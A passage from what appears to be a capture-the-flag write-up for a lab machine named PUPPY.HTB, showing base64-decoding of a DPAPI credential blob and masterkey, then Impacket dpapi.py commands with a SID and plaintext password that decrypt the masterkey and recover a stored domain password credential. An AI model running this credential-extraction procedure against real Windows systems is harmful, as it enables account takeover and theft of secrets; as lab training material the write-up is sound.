 ![NON](file-20250518050101513.png)

We can now copy the strings to our machine and decode them using `base64`, saving it to a file and then use the `dpapi.py` tool for extracting the credentials.

```bash
echo 'AQAAAJIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAEiRqVXUSz0y3Ieag
tPkEBwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQA
aQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAAHEb7RgOmv+9Na4Okf93
s5UAAAAABIAAAKAAAAAQAAAACtD/ejPwVzLZOMdWJSHNcNAAAAAxXrMDYlY3P7k8
AxWLBmmyKBrAVVGhfnfVrkzLQu2ABNeu0R62bEFJ0CdfcBONlj8Jg2mtcVXXWuYP
SiVDse/sOudQSf3ZGmYhCz21A8c6JCGLjWuS78fQnyLW5RVLLzZp2+6gEcSU1Esx
FdHCp9cT1fHIHl0cXbIvGtfUdeIcxPq/nN5PY8TR3T8i7rw1h5fEzlCX7IFzIu0a
vyGPnrIDNgButIkHWX+xjrzWKXGEiGrMkbgiRvfdwFxb/XrET9Op8oGxLkI6Mr8Q
mFZbjS41FAAAADqxkFzw7vbQSYX1LftJiaf2waSc' | base64 -d > cred


echo 'AgAAAAAAAAAAAAAANQA1ADYAYQAyADQAMQAyAC0AMQAyADcANQAtADQAYwBjAGYA
LQBiADcAMgAxAC0AZQA2AGEAMABiADQAZgA5ADAANAAwADcAAABqVXUSz0wAAAAA
iAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAAsj8xITRBgEgAZOAr
ghULmlBGAAAJgAAAA2YAAPtTG5NorNzxhcfx4/jYgxj+JK0HBHMu8jL7YmpQvLiX
7P3r8JgmUe6u9jRlDDjMOHDoZvKzrgIlOUbC0tm4g/4fwFIfMWBq0/fLkFUoEUWv
l1/BQlIKAYfIoVXIhNRtc+KnqjXV7w+BAgAAAIIHeThOAhE+Lw/NTnPdszJQRgAA
CYAAAANmAAAnsQrcWYkrgMd0xLdAjCF9uEuKC2mzsDC0a8AOxgQxR93gmJxhUmVW
DQ3j7+LCRX6JWd1L/NlzkmxDehild6MtoO3nd90f5dACAAAAAAEAAFgAAADzFsU+
FoA2QrrPuakOpQmSSMbe5Djd8l+4J8uoHSit4+e1BHJIbO28uwtyRxl2Q7tk6e/j
jlqROSxDoQUHc37jjVtn4SVdouDfm52kzZT2VheO6A0DqjDlEB19Qbzn9BTpGG4y
7P8GuGyN81sbNoLN84yWe1mA15CSZPHx8frov6YwdLQEg7H8vyv9ZieGhBRwvpvp
4gTur0SWGamc7WN590w8Vp98J1n3t3TF8H2otXCjnpM9m6exMiTfWpTWfN9FFiL2
aC7Gzr/FamzlMQ5E5QAnk63b2T/dMJnp5oIU8cDPq+RCVRSxcdAgUOAZMxPs9Cc7
BUD+ERVTMUi/Jp7MlVgK1cIeipAl/gZz5asyOJnbThLa2ylLAf0vaWZGPFQWaIRf
c8ni2iVkUlgCO7bI9YDIwDyTGQw0Yz/vRE/EJvtB4bCJdW+Ecnk8TUbok3SGQoEx
L3I5Tm2a/F6/oscc9YlciWKEmqQ=' | base64 -d > masterkey

dpapi.py masterkey -file masterkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

dpapi.py credential -file cred -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
```
